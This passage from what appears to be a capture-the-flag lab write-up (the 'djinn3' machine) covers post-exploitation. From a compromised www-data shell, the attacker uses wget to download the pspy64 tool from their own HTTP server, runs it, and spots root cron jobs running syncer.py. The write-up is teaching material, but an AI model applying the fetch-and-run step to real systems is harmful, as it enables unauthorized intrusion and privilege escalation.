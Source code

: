 # Post-Exploitation

---

## Upload pspy64

Let's observe anything that runs like Cron jobs

```bash
# Upload to target machine
www-data@djinn3:/tmp$ wget http://192.168.45.217:8000/pspy64
wget http://192.168.45.217:8000/pspy64
--2023-11-18 08:56:43--  http://192.168.45.217:8000/pspy64
Connecting to 192.168.45.217:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64              100%[===================>]   2.96M  3.59MB/s    in 0.8s

2023-11-18 08:56:44 (3.59 MB/s) - ‘pspy64’ saved [3104768/3104768]

www-data@djinn3:/tmp$ chmod +x pspy64

# Target uploads from Python simple http server running on target
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/djinn3]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.158.102 - - [17/Nov/2023 22:26:03] "GET /pspy64 HTTP/1.1" 200 -


www-data@djinn3:/tmp$ ./pspy64
./pspy64

2023/11/18 09:00:36 CMD: UID=0     PID=2      |
2023/11/18 09:00:36 CMD: UID=0     PID=1      | /sbin/init
2023/11/18 09:03:01 CMD: UID=1000  PID=1881   | /usr/bin/python3 /home/saint/.sync-data/syncer.py
2023/11/18 09:03:01 CMD: UID=1000  PID=1880   | /bin/sh -c /usr/bin/python3 /home/saint/.sync-data/syncer.py
2023/11/18 09:03:01 CMD: UID=0     PID=1879   | /usr/sbin/CRON -f
2023/11/18 09:06:01 CMD: UID=1000  PID=1889   | /usr/bin/python3 /home/saint/.sync-data/syncer.py
2023/11/18 09:06:01 CMD: UID=1000  PID=1888   | /bin/sh -c /usr/bin/python3 /home/saint/.sync-data/syncer.py
2023/11/18 09:06:01 CMD: UID=0     PID=1887   | /usr/sbin/CRON -f

```

There are Cron jobs running that trigger _syncer.py_ from the _/home/saint/.sync-data_ directory.

We don't have access to these files but we can locate the source _.pyc_ files.

## Python Files in /opt Directory
